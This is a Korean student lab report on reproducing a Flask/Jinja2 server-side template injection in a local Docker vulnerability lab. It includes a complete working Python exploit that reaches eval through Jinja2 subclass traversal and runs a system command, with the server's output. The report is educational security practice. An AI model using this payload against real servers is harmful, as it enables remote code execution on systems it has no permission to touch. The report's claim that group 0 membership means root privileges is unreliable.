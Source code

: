 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

과제에서 제공받은 깃허브 링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 이 취약점을 실습해보기 위하여 해당 깃허브 링크를 fork하여 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행

다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
<br/>
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
<docker-compose up -d>명령어를 통하여 Flask 서버를 실행하였다.
![docker-compose up -d 실행결과](./1.png)
<br/>
### 1.4 브라우저에서 flask 서버 접속
브라우저에서 서버를 접속하여 결과를 확인해보았다.
![서버 접속 실행결과](./2.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
<br/>
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 값(ex. {7*7} / {5*5})을 받아서 내부에서 Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 입력된 수식을 실제로 계산한 결과를 출력하여 보여주는 것을 확인하였다. 이는 서버가 사용자의 입력을 문자열로 인식하여 처리하는 것이 아닌 python연산처럼 처리하고 실행한 것을 의미한다. 
<br/>
이는 서버의 템플릿 엔진이 외부의 사용자 입력을 검증하지 않고 실행하여 발생한 것으로 위의 Flask 서버에는 SSTI 취약점이 존재한다. 이러한 단순 수식 계산에서 더 나아가 시스템 명령어를 실행할 수 있는지를 확인해보기 위하여 이어지는 부분에서 공격 코드를 작성하여 실습을 진행해보고자 한다.
<br/>
## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>
### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
<br/>
![vs code로 poc.py작성](./3.png)
<br/>
### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
<br/>
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻
<br/>
### 2.4 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음
<br/>
## 3. 결론
poc.py 스크립트를 통하여 SSTI(Server Side Template Injection) 취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드<`__import__("os").popen("id").read()` 명령어를 실행하는 코드>를 삽입하였다.
따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups 정보를 알려주었다. 
이 실습을 통하여 flask 서버의 SSTI 취약점을 통하여 원격 코드 실행(RCE, Remote Code Execution)수준의 제어가 가능함을 확인할 수 있었으며 공격자는 name 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도할 수 있었다. 즉, 단순 수식 평가뿐 아니라 시스템 명령어인 id같은 명령어까지 실행할 수 있어 서버의 중요 정보인 UID, GID 정보가 노출되는 SSTI 취약점을 확인해 보았다.
이러한 취약점의 경우**원격 명령 실행(RCE)** 으로 이어질 수 있기에 심각한 보안 위협이며, 이에대한 조치가 필요함을 느꼈다.

